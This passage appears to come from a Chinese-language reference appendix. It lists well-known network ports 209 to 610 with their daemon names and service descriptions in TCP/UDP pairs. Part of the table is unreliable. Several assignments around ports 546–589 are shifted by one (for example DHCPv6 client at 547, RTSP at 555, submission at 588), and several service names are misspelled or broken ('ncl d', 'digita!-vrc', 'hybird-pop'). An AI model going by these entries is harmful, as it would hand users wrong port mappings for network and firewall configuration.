| qmtp | 209/udp | 快速邮件传输协议 |
| z39.50 | 210/tcp | ANSI Z39.50 |
| z39.50 | 210/udp | ANSI Z39.50 |
| 914c/g | 211/tcp | 德州仪器 914C/G 终端 |
| 914c/g | 211/udp | 德州仪器 914C/G 终端 |
| anet | 212/tcp | ATEXSSTR |
| anet | 212/udp | ATEXSSTR |
| ipx | 213/tcp | IPX |
| ipx | 213/udp | IPX |
| vmpwses | 214/tcp | VM PWSCS |
| vmpwses | 214/udp | VM PWSCS |
| softpc | 215/tcp | Insignia 解决方案 |
| softpc | 215/udp | Insignia 解决方案 |
| callim | 216/tcp | 计算机协会国际许可证服务器 |
| callim | 216/udp | 计算机协会国际许可证服务器 |
| dbase | 217/tcp | dBASE UNIX |
| dbase | 217/udp | dBASE UNIX |
| mpp | 218/tcp | Netix 消息发布协议 |
| mpp | 218/udp | Netix 消息发布协议 |
| uarps | 219/tcp | Unisys ARPs |
| uarps | 219/udp | Unisys ARPs |
| imap3 | 220/tcp | 交互式邮件访问协议 v3 |
| imap3 | 220/udp | 交互式邮件访问协议 v3 |
| fln-spx | 221/tcp | Berkeley rlogin 带 SPX 身份验证 |
| fln-spx | 221/udp | Berkeley rlogin 带 SPX 身份验证 |


| 守护进程 | 端口 | 服务 |
|---|---|---|
| rsh-spx | 222/tcp | 支持 SPX 认证的 Berkeley rshd |
| rsh-spx | 222/udp | 支持 SPX 认证的 Berkeley rshd |
| cdc | 223/tcp | 证书分发中心 |
| cdc | 223/udp | 证书分发中心 |
| masqdiaier | 224/tcp | masqdiaier |
| masqdiaier | 224/udp | masqdiaier |
| | 225-241 | 保留 |
| direct | 242/tcp | 直接 |
| direct | 242/udp | 直接 |
| sur-meas | 243/tcp | 调查测量 |
| sur-meas | 243/udp | 调查测量 |
| inbusiness | 244/tcp | inbusiness |
| inbusiness | 244/udp | inbusiness |
| link | 245/tcp | LINK |
| link | 245/udp | LINK |
| dsp3270 | 246/tcp | 显示系统协议 |
| dsp3270 | 246/udp | 显示系统协议 |
| subntbcast_tftp | 247/tcp | SUBNTBCST_TFTP |
| subntbcast_tftp | 247/udp | SUBNTBCST_TFTP |
| bhfhs | 248/tcp | bhfhs |
| bhfhs | 248/udp | bhfhs |
| | 249-255 | 保留 |
| rap | 256/tcp | RAP |
| rap | 256/udp | RAP |
| set | 257/tcp | 安全电子交易 |
| set | 257/udp | 安全电子交易 |
| yak-chat | 258/tcp | Yak Winsock 个人聊天 |
| yak-chat | 258/udp | Yak Winsock 个人聊天 |
| esro-gen | 259/tcp | 高效短远程操作 |
| esro-gen | 259/udp | 高效短远程操作 |
| openport | 260/tcp | 开放端口 |
| openport | 260/udp | 开放端口 |
| nsiioops | 261/tcp | 通过 TLS/SSL 的 IIOP 名称服务 |
| nsiioops | 261/udp | 通过 TLS/SSL 的 IIOP 名称服务 |
| arcisdms | 262/tcp | Arcisdms |
| arcisdms | 262/udp | Arcisdms |
| hdap | 263/tcp | HDAP |
| hdap | 263/udp | HDAP |
| bgmp | 264/tcp | BGMP |
| bgmp | 264/udp | BGMP |
| x-bone-ctl | 265/tcp | X-Bone 控制 |
| x-bone-ctl | 265/udp | X-Bone 控制 |
| sst | 266/tcp | ST 上的 SCSI |
| sst | 266/udp | ST 上的 SCSI |
| td-service | 267/tcp | Tobit David 服务层 |
| td-service | 267/udp | Tobit David 服务层 |
| td-replica | 268/tcp | Tobit David 副本 |
| td-replica | 268/udp | Tobit David 副本 |
| | 269-279 | 未分配 |
| http-mgmt | 280/tcp | http-mgmt |
| http-mgmt | 280/udp | http-mgmt |
| personal-link | 281/tcp | 个人链接 |
| personal-link | 281/udp | 个人链接 |
| cableport-ax | 282/tcp | 电缆端口 A/X |
| cableport-ax | 282/udp | 电缆端口 A/X |
| rescap | 283/tcp | rescap |
| rescap | 283/udp | rescap |
| coreojd | 284/tcp | coreojd |
| coreojd | 284/udp | coreojd |
| | 285 | 未分配 |
| fxp-1 | 286/tcp | FXP-1 |
| fxp-1 | 286/udp | FXP-1 |
| k-block | 287/tcp | K-BLOCK |
| k-block | 287/udp | K-BLOCK |
| | 288-307 | 未分配 |
| novastorbakeup | 308/tcp | Novastor 备份 |
| novastorbakeup | 308/udp | Novastor 备份 |
| entrusttime | 309/tcp | EntrustTime |
| entrusttime | 309/udp | EntrustTime |
| bhmds | 310/tcp | bhmds |
| bhmds | 310/udp | bhmds |
| asip-webadmin | 311/tcp | AppleShare IP 网络管理 |
| asip-webadmin | 311/udp | AppleShare IP 网络管理 |
| vslmp | 312/tcp | VSLMP |
| vslmp | 312/udp | VSLMP |
| magenta-logic | 313/tcp | 品红逻辑 |
| magenta-logic | 313/udp | 品红逻辑 |
| opalis-robot | 314/tcp | Opalis 机器人 |
| opalis-robot | 314/udp | Opalis 机器人 |
| dpsi | 315/tcp | DPSI |
| dpsi | 315/udp | DPSI |
| decauth | 316/tcp | decAuth |
| decauth | 316/udp | decAuth |
| zannet | 317/tcp | Zannet |
| zannet | 317/udp | Zannet |
| pkix-timestamp | 318/tcp | PKIX 时间戳 |
| pkix-timestamp | 318/udp | PKIX 时间戳 |
| ptp-event | 319/tcp | PTP 事件 |
| ptp-event | 319/udp | PTP 事件 |
| ptp-general | 320/tcp | PTP 通用 |
| ptp-general | 320/udp | PTP 通用 |
| pip | 321/tcp | PIP |
| pip | 321/udp | PIP |
| rtsps | 322/tcp | RTSPS |
| rtsps | 322/udp | RTSPS |
| | 323-332 | 未分配 |
| texar | 333/tcp | Texar 安全端口 |
| texar | 333/udp | Texar 安全端口 |
| | 334-343 | 未分配 |
| pdap | 344/tcp | Prospero 数据访问协议 |
| pdap | 344/udp | Prospero 数据访问协议 |
| pawserv | 345/tcp | 性能分析工作台 |
| pawserv | 345/udp | 性能分析工作台 |
| zserv | 346/tcp | Zebra 服务器 |
| zserv | 346/udp | Zebra 服务器 |
| fatserv | 347/tcp | Fatmen 服务器 |
| fatserv | 347/udp | Fatmen 服务器 |
| csi-sgwp | 348/tcp | Cabletron 管理协议 |
| csi-sgwp | 348/udp | Cabletron 管理协议 |
| mftp | 349/tcp | mftp |
| mftp | 349/udp | mftp |
| matip-type-a | 350/tcp | MATIP 类型 A |
| matip-type-a | 350/udp | MATIP 类型 A |
| matip-type-b | 351/tcp | MATIP 类型 B |
| matip-type-b | 351/udp | MATIP 类型 B |
| bhoetty | 351/tcp | bhoetty（添加于 1997 年 5 月 21 日） |
| bhoetty | 351/udp | bhoetty |
| dtag-ste-sb | 352/tcp | DTAG（很早就已分配） |
| dtag-ste-sb | 352/udp | DTAG |
| bhoedap4 | 352/tcp | bhoedap4（添加于 1997 年 5 月 21 日） |
| bhoedap4 | 352/udp | bhoedap4 |
| ndsaush | 353/tcp | NDSAUSH |
| ndsaush | 353/udp | NDSAUSH |
| bh611 | 354/tcp | bh611 |
| bh611 | 354/udp | bh611 |
| datex-asn | 355/tcp | DATEX-ASN |
| datex-asn | 355/udp | DATEX-ASN |
| cloanto-net-1 | 356/tcp | Cloanto 网络 1 |
| cloanto-net-1 | 356/udp | Cloanto 网络 1 |
| bhevent | 357/tcp | bhevent |
| bhevent | 357/udp | bhevent |
| shrinkwrap | 358/tcp | Shrinkwrap |
| shrinkwrap | 358/udp | Shrinkwrap |
| tenebris_nts | 359/tcp | Tenebris 网络跟踪服务 |
| tenebris_nts | 359/udp | Tenebris 网络跟踪服务 |
| scoi2odialog | 360/tcp | scoi2odialog |
| scoi2odialog | 360/udp | scoi2odialog |
| semantix | 361/tcp | Semantix |
| semantix | 361/udp | Semantix |
| srsend | 362/tcp | SRS 发送 |
| srsend | 362/udp | SRS 发送 |
| rsvp_tunnel | 363/tcp | RSVP 隧道 |
| rsvp_tunnel | 363/udp | RSVP 隧道 |
| aurora-cmgr | 364/tcp | Aurora CMGR |
| aurora-cmgr | 364/udp | Aurora CMGR |
| dtk | 365/tcp | DTK |
| dtk | 365/udp | DTK |
| odmr | 366/tcp | ODMR |
| odmr | 366/udp | ODMR |
| mortgageware | 367/tcp | MortgageWare |
| mortgageware | 367/udp | MortgageWare |
| qbikgdp | 368/tcp | QbikGDP |
| qbikgdp | 368/udp | QbikGDP |
| rpc2portmap | 369/tcp | rpc2portmap |
| rpc2portmap | 369/udp | rpc2portmap |
| codaauth2 | 370/tcp | codaauth2 |
| codaauth2 | 370/udp | codaauth2 |
| clearcase | 371/tcp | Clearcase |
| clearcase | 371/udp | Clearcase |
| ulistproc | 372/tcp | 列表处理器 |
| ulistproc | 372/udp | 列表处理器 |
| legent-1 | 373/tcp | Legent 公司 |
| legent-1 | 373/udp | Legent 公司 |
| legent-2 | 374/tcp | Legent 公司 |
| legent-2 | 374/udp | Legent 公司 |
| hassle | 375/tcp | Hassle |
| hassle | 375/udp | Hassle |
| nip | 376/tcp | Amiga Envoy 网络查询协议 |
| nip | 376/udp | Amiga Envoy 网络查询协议 |
| tnETOS | 377/tcp | NEC 公司 |
| tnETOS | 377/udp | NEC 公司 |
| dsETOS | 378/tcp | NEC 公司 |
| dsETOS | 378/udp | NEC 公司 |
| is99c | 379/tcp | TIA/EIA/IS-99 调制解调器客户端 |
| is99c | 379/udp | TIA/EIA/IS-99 调制解调器客户端 |
| is99s | 380/tcp | TIA/EIA/IS-99 调制解调器服务器 |
| is99s | 380/udp | TIA/EIA/IS-99 调制解调器服务器 |
| hp-collector | 381/tcp | hp 性能数据收集器 |
| hp-collector | 381/udp | hp 性能数据收集器 |
| hp-managed-node | 382/tcp | hp 性能数据受管节点 |
| hp-managed-node | 382/udp | hp 性能数据受管节点 |
| hp-alarm-mgr | 383/tcp | hp 性能数据警报管理器 |
| hp-alarm-mgr | 383/udp | hp 性能数据警报管理器 |
| arns | 384/tcp | 远程网络服务器系统 |
| arns | 384/udp | 远程网络服务器系统 |
| ibm-app | 385/tcp | IBM 应用 |
| ibm-app | 385/udp | IBM 应用 |
| asa | 386/tcp | ASA 消息路由器对象定义 |
| asa | 386/udp | ASA 消息路由器对象定义 |
| aurb | 387/tcp | AppleTalk 基于更新的路由协议 |
| aurb | 387/udp | AppleTalk 基于更新的路由协议 |
| unidata-ldm | 388/tcp | Unidata LDM |
| unidata-ldm | 388/udp | Unidata LDM |
| ldap | 389/tcp | 轻量级目录访问协议 |
| ldap | 389/udp | 轻量级目录访问协议 |
| uis | 390/tcp | UIS |
| uis | 390/udp | UIS |
| synotics-relay | 391/tcp | SynOptics SNMP 中继端口 |
| synotics-relay | 391/udp | SynOptics SNMP 中继端口 |
| synotics-broker | 392/tcp | SynOptics 端口代理端口 |
| synotics-broker | 392/udp | SynOptics 端口代理端口 |
| dis | 393/tcp | 数据解释系统 |
| dis | 393/udp | 数据解释系统 |
| embl-ndt | 394/tcp | EMBL 核酸数据传输 |
| embl-ndt | 394/udp | EMBL 核酸数据传输 |
| netcp | 395/tcp | NETscout 控制协议 |
| netcp | 395/udp | NETscout 控制协议 |
| netware-ip | 396/tcp | Novell Netware over IP |


## 端口与服务列表

| DAEMON | PORT | SERVICE |
|---|---|---|
| netware-ip | 396/udp | Novell Netware over IP |
| mptn | 397/tcp | 多协议传输网络 |
| mptn | 397/udp | 多协议传输网络 |
| kryptolan | 398/tcp | Kryptolan |
| kryptolan | 398/udp | Kryptolan |
| iso-tsap-c2 | 399/tcp | 基于TCP的ISO传输类2非控制服务 |
| iso-tsap-c2 | 399/udp | 基于TCP的ISO传输类2非控制服务 |
| work-sol | 400/tcp | Workstation Solutions |
| work-sol | 400/udp | Workstation Solutions |
| ups | 401/tcp | 不间断电源 |
| ups | 401/udp | 不间断电源 |
| genie | 402/tcp | Genie 协议 |
| genie | 402/udp | Genie 协议 |
| decap | 403/tcp | decap |
| decap | 403/udp | decap |
| nced | 404/tcp | nced |
| nced | 404/udp | nced |
| ncl d | 405/tcp | ncl d |
| ncl d | 405/udp | ncl d |
| imsp | 406/tcp | 交互式邮件支持协议 |
| imsp | 406/udp | 交互式邮件支持协议 |
| timbuktu | 407/tcp | Timbuktu |
| timbuktu | 407/udp | Timbuktu |
| prm-sm | 408/tcp | Prospero 资源管理器系统管理 |
| prm-sm | 408/udp | Prospero 资源管理器系统管理 |
| prm-nm | 409/tcp | Prospero 资源管理器节点管理 |
| prm-nm | 409/udp | Prospero 资源管理器节点管理 |
| decladdebug | 410/tcp | DECLaddebug 远程调试协议 |
| decladdebug | 410/udp | DECLaddebug 远程调试协议 |
| rmt | 411/tcp | 远程消息传递协议 |
| rmt | 411/udp | 远程消息传递协议 |
| synoptics-trap | 412/tcp | 陷阱约定端口 |
| synoptics-trap | 412/udp | 陷阱约定端口 |
| smsp | 413/tcp | SMSP |
| smsp | 413/udp | SMSP |
| infoseek | 414/tcp | InfoSeek |
| infoseek | 414/udp | InfoSeek |
| bnet | 415/tcp | BNet |
| bnet | 415/udp | BNet |
| silverplatter | 416/tcp | Silverplatter |
| silverplatter | 416/udp | Silverplatter |
| onmux | 417/tcp | Onmux |
| onmux | 417/udp | Onmux |
| hyper-g | 418/tcp | Hyper-G |
| hyper-g | 418/udp | Hyper-G |
| ariel1 | 419/tcp | Ariel |
| ariel1 | 419/udp | Ariel |
| smpte | 420/tcp | SMPTE |
| smpte | 420/udp | SMPTE |
| ariel2 | 421/tcp | Ariel |
| ariel2 | 421/udp | Ariel |
| ariel3 | 422/tcp | Ariel |
| ariel3 | 422/udp | Ariel |
| opc-job-start | 423/tcp | IBM 作业计划与控制启动 |
| opc-job-start | 423/udp | IBM 作业计划与控制启动 |
| opc-job-track | 424/tcp | IBM 作业计划与控制跟踪 |
| opc-job-track | 424/udp | IBM 作业计划与控制跟踪 |
| icad-e1 | 425/tcp | ICAD |
| icad-e1 | 425/udp | ICAD |
| smartd | 426/tcp | smartd |
| smartd | 426/udp | smartd |
| srvloc | 427/tcp | 服务器位置 |
| srvloc | 427/udp | 服务器位置 |
| ocs_cm u | 428/tcp | OCS_CMU |
| ocs_cm u | 428/udp | OCS_CMU |
| ocs_am u | 429/tcp | OCS_AMU |
| ocs_am u | 429/udp | OCS_AMU |
| utmps d | 430/tcp | UTMPSD |
| utmps d | 430/udp | UTMPSD |
| utmpcd | 431/tcp | UTMPCD |
| utmpcd | 431/udp | UTMPCD |
| iasd | 432/tcp | IASD |
| iasd | 432/udp | IASD |
| nmsp | 433/tcp | NNsp |
| nmsp | 433/udp | NNsp |
| mobileip-agent | 434/tcp | MobileIP-Agent |
| mobileip-agent | 434/udp | MobileIP-Agent |
| mobilip-mn | 435/tcp | MobilIP-MN |
| mobilip-mn | 435/udp | MobilIP-MN |
| dna-cml | 436/tcp | DNA-CML |
| dna-cml | 436/udp | DNA-CML |
| comscm | 437/tcp | comscm |
| comscm | 437/udp | comscm |
| dsfgw | 438/tcp | dsfgw |
| dsfgw | 438/udp | dsfgw |
| dasp | 439/tcp | dasp |
| dasp | 439/udp | dasp |
| sgcp | 440/tcp | sgcp |
| sgcp | 440/udp | sgcp |
| decvms-sysmgt | 441/tcp | decvms-sysmgt |
| decvms-sysmgt | 441/udp | decvms-sysmgt |
| cvc_hostd | 442/tcp | cvc_hostd |
| cvc_hostd | 442/udp | cvc_hostd |
| https | 443/tcp | 基于 TLS/SSL 的 HTTP 协议 |
| https | 443/udp | 基于 TLS/SSL 的 HTTP 协议 |
| snpp | 444/tcp | 简单网络寻呼协议 |
| snpp | 444/udp | 简单网络寻呼协议 |
| microsoft-ds | 445/tcp | Microsoft-DS |
| microsoft-ds | 445/udp | Microsoft-DS |
| ddm-rdb | 446/tcp | DDM-RDB |
| ddm-rdb | 446/udp | DDM-RDB |
| ddm-dfm | 447/tcp | DDM-RFM |
| ddm-dfm | 447/udp | DDM-RFM |
| ddm-ssl | 448/tcp | DDM-SSL |
| ddm-ssl | 448/udp | DDM-SSL |
| as-servermap | 449/tcp | AS 服务器映射器 |
| as-servermap | 449/udp | AS 服务器映射器 |
| tserver | 450/tcp | TServer |
| tserver | 450/udp | TServer |
| sfs-smp-net | 451/tcp | Cray 网络信号量服务器 |
| sfs-smp-net | 451/udp | Cray 网络信号量服务器 |
| sfs-config | 452/tcp | Cray SFS 配置服务器 |
| sfs-config | 452/udp | Cray SFS 配置服务器 |
| creativeserver | 453/tcp | CreativeServer |
| creativeserver | 453/udp | CreativeServer |
| contentserver | 454/tcp | ContentServer |
| contentserver | 454/udp | ContentServer |
| creativepartnr | 455/tcp | CreativePartnr |
| creativepartnr | 455/udp | CreativePartnr |
| macon-tcp | 456/tcp | macon-tcp |
| macon-udp | 456/udp | macon-udp |
| scohelp | 457/tcp | scohelp |
| scohelp | 457/udp | scohelp |
| appleqtc | 458/tcp | Apple QuickTime |
| appleqtc | 458/udp | Apple QuickTime |
| ampr-rcmd | 459/tcp | ampr-rcmd |
| AMPR-RCMD | 459/udp | AMPR-RCMD |
| SKRONK | 460/tcp | SKRONK |
| SKRONK | 460/udp | SKRONK |
| DATASURFSRV | 461/tcp | DataRampSrv |
| datasurfsrv | 461/udp | DataRampSrv |
| datasurfsrvsec | 462/tcp | DataRampSrvSec |
| datasurfsrvsec | 462/udp | DataRampSrvSec |
| alpes | 463/tcp | alpes |
| alpes | 463/udp | alpes |
| kpasswd | 464/tcp | kpasswd |
| kpasswd | 464/udp | kpasswd |
| digita!-vrc | 466/tcp | digita!-vrc |
| digita!-vrc | 466/udp | digita!-vrc |
| mylex-mapd | 467/tcp | mylex-mapd |
| mylex-mapd | 467/udp | mylex-mapd |
| photuris | 468/tcp | proturis |
| photuris | 468/udp | proturis |
| rcp | 469/tcp | 无线电控制协议 |
| rcp | 469/udp | 无线电控制协议 |
| scx-proxy | 470/tcp | scx-proxy |
| scx-proxy | 470/udp | scx-proxy |
| mondex | 471/tcp | Mondex |
| mondex | 471/udp | Mondex |
| ljk-login | 472/tcp | ljk-login |
| ljk-login | 472/udp | ljk-login |
| hybrid-pop | 473/tcp | hybrid-pop |
| hybird-pop | 473/udp | hybrid-pop |
| tn-tl-w1 | 474/tcp | tn-tl-w1 |
| tn-tl-w2 | 474/udp | tn-tl-w2 |
| tcpnethassprr | 475/tcp | tcpnethassprr |
| tcpnethassprr | 475/udp | tcpnethassprr |
| tn-tl-fd1 | 476/tcp | tn-tl-fd1 |
| tn-tl-fd1 | 476/udp | tn-tl-fd1 |
| ss7ns | 477/tcp | ss7ns |
| ss7ns | 477/udp | ss7ns |
| spsc | 478/tcp | spsc |
| spsc | 478/udp | spsc |
| ia1server | 479/tcp | ia1server |
| ia1server | 479/udp | ia1server |
| ia1dbase | 480/tcp | ia1dbase |
| ia1dbase | 480/udp | ia1dbase |
| ph | 481/tcp | Ph 服务 |
| ph | 481/udp | Ph 服务 |
| bgs-nsi | 482/tcp | bgs-nsi |
| bgs-nsi | 482/udp | bgs-nsi |
| ulpnet | 483/tcp | ulpnet |
| ulpnet | 483/udp | ulpnet |
| integra-sme | 484/tcp | Integra 软件管理环境 |
| integra-sme | 484/udp | Integra 软件管理环境 |
| powerburst | 485/tcp | Air Soft 电源爆发 |
| powerburst | 485/udp | Air Soft 电源爆发 |
| avian | 486/tcp | avian |
| avian | 486/udp | avian |
| saft | 487/tcp | saft 简单异步文件传输 |
| saft | 487/udp | saft 简单异步文件传输 |
| gss-http | 488/tcp | gss-http |
| gss-http | 488/udp | gss-http |
| nest-protocol | 489/tcp | nest-protocol |
| nest-protocol | 489/udp | nest-protocol |
| micom-pfs | 490/tcp | micom-pfs |
| micom-pfs | 490/udp | micom-pfs |
| go-login | 491/tcp | go-login |
| go-login | 491/udp | go-login |
| ticf-1 | 492/tcp | FNA 传输无关汇聚 |
| ticf-1 | 492/udp | FNA 传输无关汇聚 |
| ticf-2 | 493/tcp | FNA 传输无关汇聚 |
| ticf-2 | 493/udp | FNA 传输无关汇聚 |
| pov-ray | 494/tcp | POV-Ray |
| pov-ray | 494/udp | POV-Ray |
| intecourier | 495/tcp | intecourier |
| intecourier | 495/udp | intecourier |
| pim-rp-disc | 496/tcp | PIM-RP-DISC |
| pim-rp-disc | 496/udp | PIM-RP-DISC |
| dantz | 497/tcp | dantz |
| dantz | 497/udp | dantz |
| siam | 498/tcp | siam |
| siam | 498/udp | siam |
| iso-ill | 499/tcp | ISO ILL 协议 |
| iso-ill | 499/udp | ISO ILL 协议 |
| isakmp | 500/tcp | isakmp |
| isakmp | 500/udp | isakmp |
| stmf | 501/tcp | STMF |

718


## 端口与服务映射表

| DAEMON | PORT | SERVICE |
| :--- | :--- | :--- |
| stmf | 501/udp | STMF |
| asa-appl-proto | 502/tcp | asa-appl-proto |
| asa-appl-proto | 502/udp | asa-appl-proto |
| intrinsa | 503/tcp | Intrinsa |
| intrinsa | 503/udp | Intrinsa |
| citadel | 504/tcp | citadel |
| citadel | 504/udp | citadel |
| mailbox-lm | 505/tcp | mailbox-lm |
| mailbox-lm | 505/udp | mailbox-lm |
| ohimsrv | 506/tcp | ohimsrv |
| ohimsrv | 506/udp | ohimsrv |
| crs | 507/tcp | crs |
| crs | 507/udp | crs |
| xvttp | 508/tcp | xvttp |
| xvttp | 508/udp | xvttp |
| snare | 509/tcp | snare |
| snare | 509/udp | snare |
| fcip | 510/tcp | FirstClass 协议 |
| fcip | 510/udp | FirstClass 协议 |
| passgo | 511/tcp | PassGo |
| passgo | 511/udp | PassGo |
| exec | 512/tcp | 远程进程执行 |
| comsat | 512/udp | 供邮件系统通知用户使用 |
| login | 513/tcp | 类似 telnet 的远程登录 |
| who | 513/udp | 维护显示用户在线信息的数据库 |
| shell | 514/tcp | 命令 |
| syslog | 514/udp | |
| printer | 515/tcp | 打印缓冲 |
| printer | 515/udp | 打印缓冲 |
| videotex | 516/tcp | videotex |
| videotex | 516/udp | videotex |
| talk | 517/tcp | 类似 tenex link，但跨网络 |
| talk | 517/udp | 类似 tenex link，但跨网络 |
| nstalk | 518/tcp | |
| nstalk | 518/udp | |
| utime | 519/tcp | unixtime |
| utime | 519/udp | unixtime |
| efs | 520/tcp | 扩展文件名服务器 |
| router | 520/udp | 本地路由进程（现场） |
| ripng | 521/tcp | ripng |
| ripng | 521/udp | ripng |
| ulp | 522/tcp | ULP |
| ulp | 522/udp | ULP |
| ibm-db2 | 523/tcp | IBM-DB2 |
| ibm-db2 | 523/udp | IBM-DB2 |
| ncp | 524/tcp | NCP |
| ncp | 524/udp | NCP |
| timed | 525/tcp | timeserver |
| timed | 525/udp | timeserver |
| tempo | 526/tcp | newdate |
| tempo | 526/udp | newdate |
| stx | 527/tcp | Stock IXChange |
| stx | 527/udp | Stock IXChange |
| custix | 528/tcp | Customer IXChange |
| custix | 528/udp | Customer IXChange |
| irc-serv | 529/tcp | IRC-SERV |
| irc-serv | 529/udp | IRC-SERV |
| courier | 530/tcp | rpc |
| courier | 530/udp | rpc |
| conference | 531/tcp | 聊天 |
| conference | 531/udp | 聊天 |
| netnews | 532/tcp | readnews |
| netnews | 532/udp | readnews |
| netwall | 533/tcp | 用于紧急广播 |
| netwall | 533/udp | 用于紧急广播 |
| mm-admin | 534/tcp | MegaMedia 管理 |
| mm-admin | 534/udp | MegaMedia 管理 |
| iiop | 535/tcp | iiop |
| iiop | 535/udp | iiop |
| opalis-rdv | 536/tcp | opalis-rdv |
| opalis-rdv | 536/udp | opalis-rdv |
| nmssp | 537/tcp | 网络媒体流协议 |
| nmssp | 537/udp | 网络媒体流协议 |
| gdomap | 538/tcp | gdomap |
| gdomap | 538/udp | gdomap |
| aperus-lpd | 539/tcp | Aperus Technologies 负载判定 |
| aperus-lpd | 539/udp | Aperus Technologies 负载判定 |
| uuexp | 540/tcp | uuexp |
| uuexp | 540/udp | uuexp |
| uucp-rlogin | 541/tcp | uucp-rlogin |
| uucp-rlogin | 541/udp | uucp-rlogin |
| commerce | 542/tcp | commerce |
| commerce | 542/udp | commerce |
| klogin | 543/tcp | klogin |
| klogin | 543/udp | klogin |
| krmd | 544/tcp | krmd |
| krmd | 544/udp | krmd |
| kshell | 545/tcp | kshell |
| kshell | 545/udp | kshell |
| appleqtsrvr | 546/tcp | appleqtsrvr |
| appleqtsrvr | 546/udp | appleqtsrvr |
| dhcpv6-client | 547/tcp | DHCPv6 客户端 |
| dhcpv6-client | 547/udp | DHCPv6 客户端 |
| dhcpv6-server | 548/tcp | DHCPv6 服务器 |
| dhcpv6-server | 548/udp | DHCPv6 服务器 |
| afpovertcp | 549/tcp | AFP over TCP |
| afpovertcp | 549/udp | AFP over TCP |
| idfp | 550/tcp | idfp |
| idfp | 550/udp | idfp |
| new-rwho | 551/tcp | new-who |
| new-rwho | 551/udp | new-who |
| cybercash | 552/tcp | cybercash |
| cybercash | 552/udp | cybercash |
| deviceshare | 553/tcp | deviceshare |
| deviceshare | 553/udp | deviceshare |
| pirs | 554/tcp | pirs |
| pirs | 554/udp | pirs |
| rtsp | 555/tcp | 实时流控制协议 |
| rtsp | 555/udp | 实时流控制协议 |
| dsf | 556/tcp | dsf |
| dsf | 556/udp | dsf |
| remotefs | 557/tcp | rfs 服务器 |
| remotefs | 557/udp | rfs 服务器 |
| openvms-sysipc | 558/tcp | openvms-sysipc |
| openvms-sysipc | 558/udp | openvms-sysipc |
| sdnskmp | 559/tcp | SDNSKMP |
| sdnskmp | 559/udp | SDNSKMP |
| teedtap | 560/tcp | TEEDTAP |
| teedtap | 560/udp | TEEDTAP |
| rmonitor | 561/tcp | rmonitor |
| rmonitor | 561/udp | rmonitor |
| monitor | 562/tcp | monitor |
| monitor | 562/udp | monitor |
| chshell | 563/tcp | chemd |
| chshell | 563/udp | chemd |
| nntps | 564/tcp | 基于 TLS/SSL 的 nntp 协议（原为 snntp） |
| nntps | 564/udp | 基于 TLS/SSL 的 nntp 协议（原为 snntp） |
| 9pfs | 565/tcp | plan 9 文件服务 |
| 9pfs | 565/udp | plan 9 文件服务 |
| whoami | 566/tcp | whoami |
| whoami | 566/udp | whoami |
| streettalk | 567/tcp | streettalk |
| streettalk | 567/udp | streettalk |
| banyan-rpc | 568/tcp | banyan-rpc |
| banyan-rpc | 568/udp | banyan-rpc |
| ms-shuttle | 569/tcp | microsoft shuttle |
| ms-shuttle | 569/udp | microsoft shuttle |
| ms-rome | 570/tcp | microsoft rome |
| ms-rome | 570/udp | microsoft rome |
| meter | 571/tcp | daemon |
| meter | 571/udp | daemon |
| udaemon | 572/tcp | udaemon |
| udaemon | 572/udp | udaemon |
| sonar | 573/tcp | sonar |
| sonar | 573/udp | sonar |
| banyan-vip | 574/tcp | banyan-vip |
| banyan-vip | 574/udp | banyan-vip |
| ftp-agent | 575/tcp | FTP 软件代理系统 |
| ftp-agent | 575/udp | FTP 软件代理系统 |
| vemmi | 576/tcp | VEMMI |
| vemmi | 576/udp | VEMMI |
| ipcd | 577/tcp | ipcd |
| ipcd | 577/udp | ipcd |
| vfas | 578/tcp | vfas |
| vfas | 578/udp | vfas |
| ipdd | 579/tcp | ipdd |
| ipdd | 579/udp | ipdd |
| decbsrv | 580/tcp | decbsrv |
| decbsrv | 580/udp | decbsrv |
| sntp-heartbeat | 581/tcp | SNTP 心跳 |
| sntp-heartbeat | 581/udp | SNTP 心跳 |
| bdp | 582/tcp | 束发现协议 |
| bdp | 582/udp | 束发现协议 |
| scc-security | 583/tcp | SCC 安全 |
| scc-security | 583/udp | SCC 安全 |
| phillips-vc | 584/tcp | Philips 视频会议 |
| phillips-vc | 584/udp | Philips 视频会议 |
| keyserver | 585/tcp | 密钥服务器 |
| keyserver | 585/udp | 密钥服务器 |
| imap4-ssl | 586/tcp | IMAP4+SSL（建议改用 993） |
| imap4-ssl | 586/udp | IMAP4+SSL（建议改用 993） |
| password-chg | 587/tcp | 密码更改 |
| password-chg | 587/udp | 密码更改 |
| submission | 588/tcp | 提交 |
| submission | 588/udp | 提交 |
| cal | 589/tcp | CAL |
| cal | 589/udp | CAL |
| eyelink | 590/tcp | EyeLink |
| eyelink | 590/udp | EyeLink |
| tns-cml | 591/tcp | TNS CML |
| tns-cml | 591/udp | TNS CML |
| http-alt | 592/tcp | FileMaker, Inc. - HTTP 备用 |
| http-alt | 592/udp | FileMaker, Inc. - HTTP 备用 |
| eudora-set | 593/tcp | Eudora Set |
| eudora-set | 593/udp | Eudora Set |
| http-rpc-epmap | 594/tcp | HTTP RPC Ep Map |
| http-rpc-epmap | 594/udp | HTTP RPC Ep Map |
| ttip | 595/tcp | TPIP |
| ttip | 595/udp | TPIP |
| cab-protocol | 596/tcp | CAB 协议 |
| cab-protocol | 596/udp | CAB 协议 |
| smsd | 597/tcp | SMSD |
| smsd | 597/udp | SMSD |
| ptcnameservice | 598/tcp | PTC 命名服务 |
| ptcnameservice | 598/udp | PTC 命名服务 |
| sco-webservrmg3 | 599/tcp | SCO Web 服务器管理器 3 |
| sco-webservrmg3 | 599/udp | SCO Web 服务器管理器 3 |
| aep | 600/tcp | Aeolon 核心协议 |
| aep | 600/udp | Aeolon 核心协议 |
| ipcserver | 601/tcp | Sun IPC 服务器 |
| ipcserver | 601/udp | Sun IPC 服务器 |
| urm | 602/tcp | Cray 统一资源管理器 |
| urm | 602/udp | Cray 统一资源管理器 |
| nqs | 603/tcp | nqs |
| nqs | 603/udp | nqs |
| sift-uft | 604/tcp | 发送方启动/非请即传文件传输 |
| sift-uft | 604/udp | 发送方启动/非请即传文件传输 |
| nmpm-trap | 605/tcp | nmpm-trap |
| nmpm-trap | 605/udp | nmpm-trap |
| nmpm-local | 606/tcp | nmpm-local |
| nmpm-local | 606/udp | nmpm-local |
| npmp-gui | 607/tcp | npmp-gui |
| npmp-gui | 607/udp | npmp-gui |
| hmmp-ind | 608/tcp | HMMP 指示 |
| hmmp-ind | 608/udp | HMMP 指示 |
| hmmp-op | 609/tcp | HMMP 操作 |
| hmmp-op | 609/udp | HMMP 操作 |
| sshell | 610/tcp | SSLshell |
| sshell | 610/udp | SSLshell |
